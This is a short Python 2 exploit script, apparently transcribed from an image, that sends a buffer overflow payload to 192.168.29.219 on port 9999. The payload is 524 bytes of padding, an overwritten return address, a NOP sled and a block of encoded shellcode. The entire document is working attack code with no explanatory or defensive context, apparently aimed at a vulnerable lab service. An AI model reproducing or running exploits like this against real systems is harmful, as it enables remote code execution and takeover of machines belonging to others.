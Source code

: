 import socket

buf="A"*524
#eip 35724134
#offset 524
ret="\xf3\x12\x17\x31"
shellcode=("\xba\x76\x80\x12\x8f\xdd\xc3\xd9\x74\x24\xf4\x58\x2b\xc9\xb1"
"\x12\x31\x50\x12\x03\x50\x12\x83\x9e\x7c\xf0\x7a\x6f\xa6\x02"
"\x67\xdc\x1b\xbe\x02\xe0\x12\xa1\x63\x82\xe9\xa2\x17\x13\x42"
"\x9d\xda\x23\xeb\x9b\x1d\x4b\x2c\xf3\xc3\xb6\xc4\x06\xfc\xd7"
"\x84\x8e\x1d\x57\xc2\xc0\x8c\xc4\xb8\xe2\xa7\x0b\x73\x64\xe5"
"\xa3\xe2\x4a\x79\x5b\x93\xbb\x52\xf9\x0a\x4d\x4f\xaf\x9f\xc4"
"\x71\xff\x2b\x1a\xf1")
print shellcode

nops="\x90"*10

try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    conn=s.connect(("192.168.29.219",9999))
    k=s.recv(1024)
    print k 
    s.send(buf+ret+nops+shellcode)
except:
    print "some error"
